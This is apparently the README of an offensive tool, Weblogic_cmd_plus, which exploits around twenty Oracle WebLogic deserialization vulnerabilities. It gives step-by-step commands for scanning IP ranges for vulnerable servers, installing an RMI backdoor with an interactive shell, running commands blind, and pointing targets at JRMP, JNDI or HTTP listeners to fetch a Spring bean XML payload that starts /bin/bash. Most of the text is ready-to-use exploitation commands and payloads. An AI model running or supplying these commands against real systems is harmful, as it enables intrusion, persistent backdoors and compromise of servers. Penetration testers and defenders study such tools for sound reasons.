


# Weblogic_cmd_plus



## Vulnerability information

- `*` means that the target machine does not need to be out of the network when exploiting the vulnerability

| CVE-TYPE        | WeblogicVersion                        | Limit                 | Dependencies                                             |
| --------------- | -------------------------------------- | --------------------- | :------------------------------------------------------- |
| CVE-2015-4852*  | 10.3.6.0, 12.1.2.0, 12.1.3.0, 12.2.1.0 | none                  | none                                                     |
| CVE-2016-0638*  | 10.3.6.0, 12.1.2.0, 12.1.3.0, 12.2.1.0 | none                  | streamMessageImpl                                        |
| CVE-2016-3510*  | 10.3.6.0, 12.1.3.0, 12.2.1.0           | none                  | MarshalledObject                                         |
| CVE-2017-3248   | 10.3.6.0, 12.1.3.0,                    | none                  | [JRMP]                                                   |
| CVE-2017-3506*  | 10.3.6.0, 12.1.3.0                     | none                  | XMLDecoder                                               |
| CVE-2017-10271* | 10.3.6.0, 12.1.3.0                     | none                  | XMLDecoder bypass use void tag                           |
| CVE-2018-2893   | 10.3.6.0, 12.1.3.0                     | none                  | streamMessageImpl+RemoteObjectInvocationHandler [JRMP]   |
| CVE-2018-3191   | 10.3.6.0, 12.1.3.0                     | JDK<6u211/7u201/8u191 | JtaTransactionManager [JNDI Inject]                      |
| CVE-2018-3245   | 10.3.6.0, 12.1.3.0                     | JDK<6u141/7u131/8u121 | RemoteObject Subclass [JRMP]                             |
| CVE-2019-2725   | 10.3.6.0, 12.1.3.0                     | none                  | XMLDecoder bypass use class tag and load remote bean xml |
| CVE-2019-2729   | 10.3.6.0, 12.1.3.0                     | jdk=6                 | XMLDecoder bypass use class tag and load remote bean xml |
| CVE-2020-2551   | 10.3.6.0, 12.1.3.0, 12.2.1.3, 12.2.1.4 | JDK<6u211/7u201/8u191 | IIOP+JtaTransactionManager [JNDI Inject]                 |
| CVE-2020-2555*  | 10.3.6.0, 12.1.3.0, 12.2.1.3, 12.2.1.4 | 10.3.6.0 need enabled | Coherence with LimitFilter toString                      |
| CVE-2020-2883*  | 10.3.6.0, 12.1.3.0, 12.2.1.3, 12.2.1.4 | 10.3.6.0 need enabled | Coherence with PriorityQueue+ExtractorComparator         |
| CVE-2020-14625* | 12.2.1.4                               | none                  | UniversalExtractor+TemplateImpl                          |
| CVE-2020-14644* | 12.2.1.3, 12.2.1.4                     | none                  | com.tangosol.internal.util.invoke.RemoteConstructor      |
| CVE-2020-14645  | 12.2.1.4                               | JDK<6u211/7u201/8u191 | UniversalExtractor [JNDI Inject]                         |
| CVE-2020-14825  | 12.2.1.3, 12.2.1.4                     | JDK<6u211/7u201/8u191 | LockVersionExtractor [JNDI Inject]                       |
| CVE-2020-14841  | 12.2.1.3, 12.2.1.4, 14.1.1.0           | JDK<6u211/7u201/8u191 | IIOP protocol resolve [JNDI Inject]                      |
| CVE-2020-14756  | 12.1.3.0, 12.2.1.3, 12.2.1.4           | none                  | ExternalizableHelper bypass resolveClass/jep290          |

## Feature

- Perfectly solved the compatibility problem between coherence.jar and iiop deserialization under different weblogic versions.
- Except for CVE-2019-2725 and CVE-2019-2729, all the vulnerabilities support interactive revealback.
- Contains all of Weblogic's publicly available high-risk deserialization vulnerabilities.
- Support bulk vulnerability scanning.

## Usage

### JRMPServer

Modified from ysoserial, mainly used for jrmpserver.

```
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                                Dependencies
     -------             -------                                ------------
     CommonsCollections1 @frohoff                               commons-collections:3.1
     CommonsCollections2 @frohoff                               commons-collections4:4.0
     CommonsCollections3 @frohoff                               commons-collections:3.1
     CommonsCollections4 @frohoff                               commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     Jdk7u21             @frohoff
```

Different CommonsCollections deserialization chains can be chosen for different environments.

```
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "install"
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "uninstall"
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "command"
```

### JNDIServer

Server side for JNDI injection

```
[usage]: java -jar JNDIServer.jar -A [ip] -hport [http port] -rpot [rmi port] -lport [ldap port]
-A: Server listens to the NIC ip
-hport: Opened http service port number, default is 8080
-rport: Opened rmi service port number, default is 1900
-lport: Open ldap service port number, default is 1389
```

### Weblogic_cmd_plus

```
 -B                     Runtime Blind Execute Command maybe you should
                        select os type
 -C <arg>               Execute Command[need set]
 -H <arg>               Remote Host[need set]
 -https                 enable https or tls
 -iiop                  Use IIOP deserialization
 -jndi <arg>            JNDI Inject RMI/LDAP Server Address
 -jrmphost <arg>        Jrmp Server Address
 -jrmpport <arg>        Jrmp Server Port
 -noExecPath            custom execute path
 -os <arg>              Os Type [windows,linux]
 -P <arg>               Remote Port[need set]
 -scan                  Vulnerability detection
 -scanfile <arg>        Vulnerability detection IP List Filename
 -scanip <arg>          Vulnerability detection IP List
 -scanport <arg>        Vulnerability detection Port
 -shell                 enable shell module
 -springbeanurl <arg>   Load Spring BeanXML file from this URL
 -T <arg>               Payload CVE Type
 -t <arg>               Vulnerability detection number of threads, default
                        is 20
 -timeout               http request timeout and socket timeout, default
                        is 4000ms
 -U                     Uninstall rmi
 -version <arg>         Weblogic Version
```

Adapted from https://github.com/5up3rc/weblogic_cmd

#### Vulnerability Scan

Single ip scan, add -https parameter if it is https

```
java -jar weblogic_cmd_plus.jar -scanip 127.0.0.1 -scanport 7001 -scan
```


The default is to detect the weblogic version based on the results returned on port 7001, which can also be specified with the -version parameter.

ip segment scan:

```
java -jar weblogic_cmd_plus.jar -scanip 127.0.0.1/24 -scanport 7001 -scan -t 20
```

Get the list of scanned ip's by file.

The file format is as follows and will determine if it is https based on t3 and t3s.

```
#ip.txt
t3s://127.0.0.1:7010/
t3://127.0.0.1:7001/
t3://127.0.0.1:7002/
t3://127.0.0.1:7003/
t3://127.0.0.1:7004/
t3://127.0.0.1:7005/
t3://127.0.0.1:7006/
t3s://127.0.0.1:7008/
t3://127.0.0.1:7009/
```

```
java -jar weblogic_cmd_plus.jar -scanfile ip.txt -scan -t 20
```

Will write the results of the existence of vulnerabilities to the current directory Vulist.txt, T3 protocol port open log written to T3Port-open.txt, IIOP protocol port open log written to IIOPPort-open.txt

#### IIOP exploit

If the T3 port is open, the version is automatically detected, if it is closed, you need to specify the weblogic version with the -version parameter

```
#Install rmi instance
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -iiop -version 12.1.x/12.2.x/14.1.x -shell
#Uninstall rmi instance
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -iiop -version 12.1.x/12.2.x/14.1.x -U
#No echo command execution
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -iiop -version 12.1.x/12.2.x/14.1.x -B -C "touch /tmp/exploit"
```


### CVE-2015-4852、CVE-2016-0638、CVE-2016-3510、CVE-2020-2555、CVE-2020-2883、CVE-2020-14625、CVE-2020-14644、CVE-2020-14756(Temporarily does not support back display and detection)


### JRMP Deserialization：CVE-2017-3248、CVE-2018-2893、CVE-2018-3245，The target plane needs to come out of the net.

Installing the rmi backdoor and accessing the interactive shell

```
# JRMPServer listening 8012 port
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "install"
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -T CVE-2017-3248 -jrmphost "ip" -jrmpport 8012 -shell
```

Uninstall rmi backdoor

```
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "uninstall"
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -T CVE-2017-3248 -jrmphost "ip" -jrmpport 8012 -U
```

No echo command execution

```
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "touch /tmp/exploit"
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2017-3248 -jrmphost "ip" -jrmpport 8012 -B
```

### JNDI Injection：CVE-2018-3191、CVE-2020-2551、CVE-2020-14645、CVE-2020-14825、CVE-2020-14841，The target plane needs to come out of the net.

Installing the rmi backdoor and accessing the interactive shell

```
# JNDIServer listening port
java -jar JNDIServer-0.1.jar -A JNDIServerip -hport httpport -rport rmiport -lport ldapport
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2018-3191 -jndi "rmi://x.x.x.x:1099/install" -shell
```

Uninstall rmi backdoor

```
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2018-3191 -jndi "rmi://x.x.x.x:1099/uninstall" -U
```


### XMLDecoder Deserialization：CVE-2017-3506、CVE-2017-10271

There is a return command to execute.

```
java -jar weblogic_cmd_plus.jar  -H 127.0.0.1 -P 7001 -T CVE-2017-3506 -C "whoami"
```



### XMLDecoder Deserialization：CVE-2019-2725、CVE-2019-2729 target needs to come out of the net,and there is no return display.

Put linux_bean.xml or win_bean.xml in the httpserver and modify the commands in the xml file.

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value>touch /tmp/exploit</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Execute commands without echoes

```
java -jar weblogic_cmd_plus.jar -H 127.0.0.1 -P 7001 -T CVE-2019-2725 -springbeanurl 'http://x.x.x.x:8012/linux_poc.xml'
```

## Thanks

[https://github.com/5up3rc/weblogic_cmd](https://github.com/5up3rc/weblogic_cmd)

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)

